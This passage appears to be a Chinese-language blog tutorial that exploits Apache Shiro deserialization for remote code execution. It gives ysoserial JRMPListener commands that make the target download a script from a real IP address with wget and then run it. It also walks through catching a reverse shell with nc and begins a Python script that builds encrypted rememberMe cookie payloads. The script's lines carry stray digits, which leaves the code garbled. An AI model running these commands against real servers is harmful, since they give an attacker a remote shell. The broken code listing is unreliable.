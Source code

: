 

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 12345  CommonsCollections5 'wget http://114.118.80.138:8080/1.sh -O test'
```




![](https://img-blog.csdnimg.cn/20190803231126943.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**第三步：**然后在我们的windows机器上执行shiro\_rce.py脚本，这样，就会在目前机器上下载 [http://114.118.80.138:8080/1.sh](http://114.118.80.138:8080/1.sh "http://114.118.80.138:8080/1.sh") 文件，并且命名为test。



![](https://img-blog.csdnimg.cn/20190803231142496.png)



前面三步的目的是将我们的1.sh脚本下载到目标机器上，并且重命名为test。



**第四步**：我们在VPS上监听8888端口



**第五步：**并且在我们的VPS上运行下面命令，意思是执行目标机器上的刚刚下载的test脚本



```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 12345  CommonsCollections5 'sh test'
```




**第六步：**然后再次在windows机器上执行shiro\_rce.py脚本，这样，我们nc就可以收到目标机器反弹的shell了。 



![](https://img-blog.csdnimg.cn/20190803231837768.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



以下是 shiro\_check\_key.py文件的内容



```
#codeing:utf-8      
# pip install pycrypto      
import sys        
import base64        
import uuid        
from random import Random        
import subprocess        
from Crypto.Cipher import AES      
import requests      1
import time       1
cookies = {}      1
headers = {      1
    'User-Agent': 'Mozilla/5.0 AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36',      1
    'Accept-Encoding': 'gzip, deflate',      1
    'Accept-Language': 'en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7',      1
}       1
def encode_rememberme(command,key):        2
      popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-all.jar', 'URLDNS', command], stdout=subprocess.PIPE)      2
      BS   = AES.block_size      2
      pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()      2
      mode =  AES.MODE_CBC      2
```
